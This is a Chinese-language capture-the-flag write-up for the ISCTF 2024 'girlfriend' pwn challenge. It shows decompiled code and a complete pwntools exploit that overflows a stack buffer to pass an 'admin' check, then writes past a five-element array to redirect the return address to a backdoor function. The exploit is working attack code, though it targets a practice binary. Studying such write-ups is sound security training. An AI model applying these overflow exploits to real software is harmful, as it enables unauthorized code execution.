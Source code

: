 # ISCTF pwn方向“girlfriend"

by Maple

直接明确的：

1. 通过溢出覆盖元素内容
2. 通过数组越界覆盖返回地址

**main:**

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[40]; // [rsp+0h] [rbp-30h] BYREF
  char s1[8]; // [rsp+28h] [rbp-8h] BYREF

  init(argc, argv, envp);
  puts("welcome to isctf2024");
  puts("first i need your team id");
  read(0, buf, 0x30uLL);
  if ( strcmp(s1, "admin") )
  {
    puts("no no no");
    exit(0);
  }
  puts("ok, go on");
  vuln();
  return 0;
}
```

要求`s1`和为`admin`，可以看到`s1`距离栈底偏移为0x28，所以填充0x28个数据再写入admin就好了

```python	
payload = b'b'*0x28 + b'admin'
p.sendafter(b'team id', payload)
```

**vuln:**

```c
__int64 vuln()
{
  __int64 result; // rax
  _QWORD v1[5]; // [rsp+0h] [rbp-30h] BYREF
  __int64 i; // [rsp+28h] [rbp-8h]

  for ( i = 0LL; i <= 7; ++i )
  {
    printf("please input your %d girlfriend birthday\n", i + 1);
    result = __isoc99_scanf("%ld", &v1[i]);
  }
  return result;
}
```

一共八次输入，但v1只有5个元素，第八次输入的时候恰好会覆盖result，所以前面先输入一些，第八次改为后门函数的地址就可以了

```python
for i in range(7):
    p.recvuntil(b'birthday\n')
    p.sendline(b'5')
payload = str(0x40121E)
p.sendlineafter(b'birthday\n' , payload)
```

**总exp**：

```python
from pwn import *
elf = ELF("./pwn")
context.log_level = 'debug'
p = process('./pwn')
payload = b'b'*0x28
payload += b'admin'
p.sendafter(b'team id', payload)
for i in range(7):
    p.recvuntil(b'birthday\n')
    p.sendline(b'5')
payload = str(0x40121E)
p.sendlineafter(b'birthday\n' , payload)
p.interactive()
```

